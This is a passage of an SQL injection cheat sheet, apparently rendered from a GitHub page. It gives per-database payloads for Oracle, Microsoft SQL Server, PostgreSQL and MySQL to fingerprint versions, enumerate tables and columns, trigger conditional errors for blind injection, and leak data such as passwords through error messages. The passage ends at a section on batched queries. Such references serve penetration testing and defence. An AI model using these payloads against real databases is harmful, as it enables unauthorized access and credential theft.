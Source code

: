 | Distribution | Commande |
| --- | --- |
| Oracle |  ```SELECT banner FROM v$version ``` <br>```SELECT version FROM v$instance ``` |
| Microsoft |  ```SELECT @@version ``` |
| PostgreSQL |  ```SELECT version() ``` |
| MySQL |  ```SELECT @@version ``` |

        
## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.         

| Distribution | Commande |
| --- | --- |       
| Oracle |  ```SELECT * FROM all_tables ```<br>```SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' ``` |
| Microsoft |  ```SELECT name FROM master.dbo.sysdatabases ```<br>```SELECT * FROM information_schema.tables<br>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'``` |
| PostgreSQL |  ```SELECT * FROM information_schema.tables ```<br>```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'``` |
| MySQL |  ```SELECT * FROM information_schema.tables ```<br>```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'``` |

        
## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.         

| Distribution | Commande |
| --- | --- | 
| Oracle | ```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual``` |
| Microsoft | ```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END``` |
| PostgreSQL | ```1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)``` |
| MySQL | ```SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')``` |

        
## Extracting data via visible error messages
You can potentially elicit error messages that leak sensitive data returned by your malicious query.         

| Distribution | Commande |
| --- | --- |     
| Microsoft |  ```SELECT 'foo' WHERE 1 = (SELECT 'secret') ```<br>> Conversion failed when converting the varchar value 'secret' to data type int. |
| PostgreSQL |  ```SELECT CAST((SELECT password FROM users LIMIT 1) AS int) ```<br>> invalid input syntax for integer: "secret" |
| MySQL |  ```SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) ```<br>> XPATH syntax error: '\secret' |

        
## Batched (or stacked) queries
You can use batched queries to execute multiple queries in  succession. Note that while the subsequent queries are executed, the  results are not returned to the application. Hence this technique is  primarily of use in relation to blind vulnerabilities where you can use a  second query to trigger a DNS lookup, conditional error, or time delay.         
